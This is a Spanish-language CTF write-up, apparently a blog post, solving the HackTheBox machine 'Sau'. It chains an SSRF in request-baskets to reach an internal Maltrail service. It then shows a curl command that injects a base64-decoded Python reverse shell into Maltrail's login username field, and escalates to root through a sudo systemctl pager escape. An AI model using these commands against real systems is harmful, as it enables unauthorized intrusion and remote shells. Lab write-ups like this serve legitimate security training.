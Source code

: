 ```yaml
---
layout: post
title: HackTheBox - Sau 
author: c4rta
date: 2023-08-29
tags: [HTB, SSRF]
image: /assets/img/sau/waifu.jpg
---
```


{:.lead}

## Enumeracion

Iniciamos con un escaneo de nmap con:

```ruby
nmap -sS -n -Pn -T4 --open -p- 10.10.11.224
```

- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

- n: para que no haga resolucion DNS y tarde menos el escaneo

- Pn: para evitar el descubrimiento de hosts

- open: para que solo muestre los puertos abiertos

- -p-: para que escanee todo el rango de puertos

Y nos reporto el puerto 22 (SSH) y 55555:

```ruby
PORT      STATE SERVICE
22/tcp    open  ssh
55555/tcp open  unknown
```

Adicionalmente, si mostramos los puertos filtrados, nos saldra el puerto **80**

```ruby
80/tcp    filtered http
```

Ahora escanearemos para obtener mas informacion sobre la version y el servicio que estan corriendo bajo esos puertos. En el puerto 55555 nos mostrara que encontro informacion de un sitio web y el recurso **web**:

```ruby
nmap -sCV -p22,22,55555 10.10.11.224
```

```ruby
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 02 Jan 2024 22:20:01 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 02 Jan 2024 22:19:33 GMT
|     Content-Length: 27
|     href="/web">Found</a>. <-- recurso de un sitio web
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 02 Jan 2024 22:19:34 GMT
|_    Content-Length: 0
```

### Analisis del puerto 55555

El puerto **55555** corresponde a un servidor web, por defecto nos manda al recurso **web** como se puede ver: 

![](/assets/img/sau/1.png)

Si vemos en el footer del sitio, aparecera que esta usando **request-baskets** es una version

```
Powered by request-baskets | Version: 1.2.1 
```

Al realizar una busqueda en google, podemos notar que es vulnerable a **SSRF**

[https://www.akto.io/cves/CVE-2023-27163-requestbaskets-up-to-v-was-discovered-to-contain-a-serverside](https://www.akto.io/cves/CVE-2023-27163-requestbaskets-up-to-v-was-discovered-to-contain-a-serverside)

Nos menciona que esta vulnerabilidad nos permite acceder a recursos internos a travez de una peticion a la API que ejecuta por detras **request-baskets**

Analizando un poco mas las opciones del sitio, nos encontramos que podemos crear **baskets** y luego acceder a ellas mediante una URL. Al explorar una basket creada, podemos ver las solicitudes que se han echo asi como mas informacion, tambieb modificar algunas cosas de configuracion: 

![](/assets/img/sau/2.png)

Tenemos la capacidad de hacer **URL forwarding**, es decir, hacer una redireccion a una URL.

## SSRF - access port 80

**SSRF:** Server-side request forgery es una vulnerabilidad que permite a los atancantes realizar peticiones arbitrarias con el fin de acceder a servicios internos de la maquina.

Recapitulando, debido a que tenemos un **SSRF**, una redireccion URL, y el puerto 80 filtrado, podemos intentar modificar la configuracion de una **basket** de esta forma:

![](/assets/img/sau/3.png)

Lo que estaria pasando, es que cuando nosotros ingresemos a la URL que se genero cuando se crea un **basket**, esa peticion se estaria redireccionado a **127.0.0.1:80**, y como existe un SSRF, estariamos accediendo al servicio interno de la maquina que corre en **127.0.0.1:80**, lo cual indica que el SSRF se exploto correctamente como se puede ver

![](/assets/img/sau/4.png)

## RCE - Maltrail (v0.53)

Como se observa al final, se esta usando la version 0.53 de Maltrail, al realizar una busqueda rapida en google, nos daremos cuenta que que podemos explotar una vulnerabilidad para conseguir RCE, leyendo un poco de la vulnerabilidad, el parametro **username** del recurso **login** no se sanitiza correctamente, lo cual permie que podamos inyectar comandos, por lo cual podemos explotarla directamente usando curl:

Usaremos python para crear una revese shell:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>", <puerto>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
    Recuerda cambiar la IP y el puerto

Luego lo codificaremos en b64 y usaremos este comando para enviar una peticion por POST y en el parametro **username** le encadenamos el comando

```ruby
curl -X POST "http://10.10.11.224:55555/dihpeef/login" -d "username=;$(echo "<base 64>" | base64 -d | bash)"
```

La URL debe ser por una basket que hayas creado y obtendremos una conexion

![](/assets/img/sau/5.png)

(A este punto tenemos la flag de user)

## Escalada de privilegios

Si vemos los permisos de nivel de sudoers, podremos ver que el usuario puma puede ejecutar **systemctl** sin contraseña:

    Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

Debido a que cuando ejecutamos comando con systemctl usa una interfaz o vista similar a la del comando **less**, podemos inyectar comando al final de la vista de systemctl de la siguiente manera

![](/assets/img/sau/6.png)

Observa como al final de la vista o cuando termina la informacion mostrada, se le ingresa el comando que queremos ejecutar, en este caso fue **!bash** (ignorar el WARNING: terminal is not fully functional, no la hice fully interactive TTY)

Con eso hemos conseguido root

Eso ha sido todo, gracias por leer ❤
